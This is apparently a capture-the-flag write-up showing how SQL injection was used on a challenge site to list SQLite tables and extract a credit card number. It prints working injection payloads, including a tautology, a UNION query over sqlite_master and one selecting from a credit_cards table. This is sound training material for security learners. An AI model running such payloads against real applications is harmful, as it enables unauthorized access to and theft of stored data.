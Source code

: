 We first start by testing the syntax. On the first try I got this payload to print something different:

```
' OR 1=1 --
```

![image](https://github.com/tzwukerf/canyouhackit2023/assets/77770175/e618e4e9-7b1a-4196-a04b-881bee343b53)

After several attempts of different payloads oriented towards different SQL databases (SQL, mySQL, etc) I figured out that it was a sqlite server by trying sqlite injections. This payload returned to me all the tables:

```
' UNION SELECT name FROM sqlite_master WHERE type='table' --
```

![image](https://github.com/tzwukerf/canyouhackit2023/assets/77770175/8c2d9961-4b2b-4233-9fff-8585a4a63b2c)

Using this information, we can craft our payload:

'''
' UNION SELECT card FROM credit_cards WHERE username="scruffy" --
'''

It gives us our credit card number and then we can submit it to get another challenge completed.
